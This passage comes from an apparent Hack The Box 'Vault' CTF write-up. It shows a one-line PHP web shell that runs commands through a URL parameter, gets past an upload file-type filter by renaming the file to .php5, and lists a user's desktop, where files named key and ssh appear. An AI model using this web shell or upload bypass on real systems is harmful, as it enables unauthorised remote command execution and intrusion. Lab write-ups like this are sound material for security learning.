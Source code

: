 ![](/assets/images/htb-writeup-vault/design.png)

The link goes to an upload page. Upload pages are interesting because if we can upload a PHP file then we can get RCE on the target machine.

![](/assets/images/htb-writeup-vault/changelogo.png)

I used a simple PHP command shell:

```php
<html><head></head><body><pre>
<?php system($_GET["cmd"]); ?>
</pre></body></html>
```

When we try to upload a simple PHP command shell we get a `sorry that file type is not allowed` error message.

After trying a few different file types, I noticed we can use the `.php5` file extension and we get a `The file was uploaded successfully` message.

We now have RCE:

![](/assets/images/htb-writeup-vault/rce.png)

Found a couple of interesting files in Dave's desktop folder:

**http://vault.htb/sparklays/design/uploads/shell.php5?cmd=ls%20-l%20/home/dave/Desktop**
```
total 12
-rw-rw-r-- 1 alex alex 74 Jul 17 10:30 Servers
-rw-rw-r-- 1 alex alex 14 Jul 17 10:31 key
-rw-rw-r-- 1 alex alex 20 Jul 17 10:31 ssh
```
